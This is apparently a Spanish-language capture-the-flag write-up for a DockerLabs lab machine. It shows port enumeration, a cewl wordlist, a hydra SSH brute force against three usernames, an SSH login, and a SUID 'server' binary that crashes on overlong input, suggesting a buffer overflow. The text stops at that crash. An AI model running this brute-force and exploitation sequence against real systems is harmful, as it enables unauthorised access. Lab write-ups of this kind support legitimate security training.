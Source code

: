 Solo vemos dos puertos abiertos:

•`Puerto 22: OpenSSH 9.6p1 Ubuntu`

•`Puerto 80: Apache httpd 2.4.58`

Sabiendo esto iremos directamente al puerto 80, ya que el 22 no nos es útil por ahora.



#### Puerto 80

Vemos que trata de una especie de software que permite enviar texto por la red, por ahora no nos sirve.

# Intrusión

También podemos ver unos usuarios:

```css
juan
marta
alex
```

los cuales los meteremos en un archivo ya que utilizaremos `cewl` para ver si en alguna palabra de la página se encuentra alguna contraseña. Para esto debemos ejecutar lo siguiente:

```css
cewl "http://172.17.0.2/" > wordlist.txt
```

luego usaremos `hydra` con la lista de posibles contraseñas:

```css
hydra -L users.txt -P wordlist.txt 172.17.0.2 ssh
```

y obtenemos las siguientes credenciales:

![Credenciales](images/sender/hydra.png)

ahora nos conectaremos por ssh de la siguiente manera:

```css
ssh alex@172.17.0.2
```

# Escalada De Privilegios

### Alex

Si revisamos el home del usuario alex, veremos que se encuentra un binario llamado server el cual tiene le bit SUID activado, y si a este lo ejecutamos y enviamos muchos datos, veremos que sale el siguiente mensaje:

```css
alex@dockerlabs:~$ /home/alex/server 
Servidor escuchando en el puerto 7777...
Conexión aceptada de 172.17.0.1:49950
Datos recibidos: AAAAAAAAA<SNIP>AAAAAAAAAAAAAAAAAAAAAAA

Procesado: AAAAAA<SNIP>AAAAAAAAAAAAAAAAAAAAAAAAAAAA

Segmentation fault (core dumped)
alex@dockerlabs:~$ 
```
